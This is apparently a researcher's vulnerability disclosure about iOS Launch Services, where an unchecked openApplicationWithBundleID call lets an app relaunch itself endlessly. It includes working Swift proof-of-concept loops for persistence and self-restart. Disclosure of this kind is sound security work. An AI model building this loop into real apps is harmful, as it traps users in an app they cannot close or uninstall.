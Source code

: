 ## Caller validation vulnerability in MobileCoreServices leading to a persistence exploit

Reported to apple, No CVE assigned yet!

### How I found it?

I was researching `MobileCoreServices`, specifically `LSApplicationWorkspace` and found it very interesting that you can use a couple of its methods without any entitlements. I stumbled over this because of my Nyxian project which is basically Xcode for iOS with app distribution functionalities and even auto launch after install. I was looking for a method to automatically open the apps. I've found what I was looking for...

```objc
- (BOOL)openApplicationWithBundleID:(id)arg1;
```

... tho this wasnt yet the moment I realised this potential vulnerability exists. First when I researched `LSApplicationWorkspace` more. I wanted to find a method that helps me determine if a app has been sucessfully installed on the device after sending the app using OTA methods to the device it self and insanely enough I found it...

```objc
- (id)installProgressForBundleID:(id)arg1 makeSynchronous:(unsigned char)arg2;
```

... this method allowed me to get a `NSProgress` object, when I then tried to apply a handler to it I got a error, it said that I cannot apply a handler to it because it belongs to a other process and additionally the app crashed. This made me think "If this is handled by a other process, then opening must be too"...

### Vulnerability

First I assumed that apple already accounted for this possibility given the time `MobileCoreServices` and `LSApplicationWorkspace` already exist, but to my suprise they didnt account for it. First I tried to loop call the function on my own BundleID. I expected the process handling the openage to already account for the callers presence and abort if the caller is not present anymore.

```swift
import SwiftUI
import Foundation

func pthread_dispatch(_ code: @escaping () -> Void) {
    var thread: pthread_t?
    let blockPointer = UnsafeMutableRawPointer(Unmanaged.passRetained(code as AnyObject).toOpaque())
    
    pthread_create(&thread, nil, { ptr in
        let unmanaged = Unmanaged<AnyObject>.fromOpaque(ptr)
        let block = unmanaged.takeRetainedValue() as! () -> Void
        block()
        return nil
    }, blockPointer)
}

struct ContentView: View {
  var body: some View {
    Text("You now have to force reboot now")
    .onAppear {
      // Get the workspace
      guard let workspace = LSApplicationWorkspace.default() else { return }
      
      // Make a background thread
      pthread_dispatch {
        // Make a loop
        while true {
          // This will request to open the app constantly
          workspace.openApplication(withBundleID: Bundle.main.bundleIdentifier)
        }
      }
    }
  }
}
```

After I ran the code I've discovered a few things..

- The user cannot close the app without the app being relaunched again
- The user cannot interact with their device properly(eg. If they return to home they get thrown back into the app exploiting the vulnerability)
- The user cannot uninstall the app because of the small time frame they can dismiss the app.

The most insane about this is obviously "The user cannot close the app without the app being relaunched again", why? because it violates iOS core assumptions such as if a user closes a app it stays closed, but this basically proves that we can exploit this vulnerability in a reliable way to reincarnate the app after the user closed it.

###### Restart a iOS app programatically

I thought a bit further and thought about another topic, well iOS doesnt allow you for example to programatically restart your app. I thought about why this even works. And I just tried something out and it didnt worked yet, but read further.

```swift
import SwiftUI
import Foundation

struct ContentView: View {
  var body: some View {
    Button("Restart App") {
      // Get the workspace
      guard let workspace = LSApplicationWorkspace.default() else { return }
      
      // Start a background thread that attempts to reopen the currently opened app constantly
      pthread_dispatch {
        while true {
          workspace.openApplication(withBundleID: Bundle.main.bundleIdentifier)
        }
      }
      
      // Now attempt to exit
      exit(0)
    }
    Text("Process ID: \(getpid())")
  }
}
```

Expectedly this did not worked or the success rate was pretty bad, but then I attempted something differently and I was stunned by this dicovery. It turns out the success rate of restarting your own app using this vulnerability increases the longer the loop occurs. So i changed...

```swift
exit(0)
```

To this...

```swift
pthread_dispatch {
  // wait 0.2 seconds
  Thread.sleep(forTimeInterval: 0.2)
  // now exit the app
  exit(0)
}
```

Using this I made the implementation for restarting the iOS app it self reliable.

### Why does it work?

It works because of improper checks of the `lsd` (Launch Services Daemon) which is responsible for managing requests of opening applications via the `MobileCoreServices` framework, specifically when invoking `- (BOOL)openApplicationWithBundleID:(id)arg1;` your app is giving the request to `lsd` which then manages to open the app, so where is the problem... when ur doing it in a while loop and in a background thread you dont wait on the return of this method and can simply continue code execution without waiting on its return which apple didnt accounted for, although this is a common security concern. What then happens is that if we call `exit(0)` the `lsd` process is still processing the request. When your app then gets terminated by your own `exit(0)` call `lsd` fails to address that and continues with opening your own app although terminated which results in the app self relaunching. This concept doesnt change when the user initiated the app termination using the app switcher. What's also interesting is that the vulnerability has a higher success rate when the user kills the app using the app switcher, actually I never encountered a failure when killing the malicious application over the app switcher which might also be related to how `lsd` and `SpringBoard` work together.

### Why is this dangerous?

A attacker could use this vulnerability maliciously to bypass the user interaction of killing the attackers app using the app switcher and bypassing the users attempt to uninstall the app(which is a side-effect cause of the self-open which dismisses the uninstallation menu) and additionally stay opened for ever, no matter what the user does, which leads to a malicious **persistence exploit**. Additionally as the opening of the app is a side-effect it's super annoying. It's also a privacy concern as data can be exfiltrated without the users consent. And the vulnerability could be used in a chain to ensure the user cannot escape a certain hacking attempt of their phone. Additionally no special entitlements are needed to use this vulnerability which empowers every app to use this vulnerability.

### Theory
I think this vulnerability exists because when apple added Launch services in iOS 2.0 they havent had multitasking yet.. they mostlikely forgot to make the selector secure for multitasking and thats likely why the vulnerability exists. was likely first exploitable in iOS 7.0 when apple added multitasking.
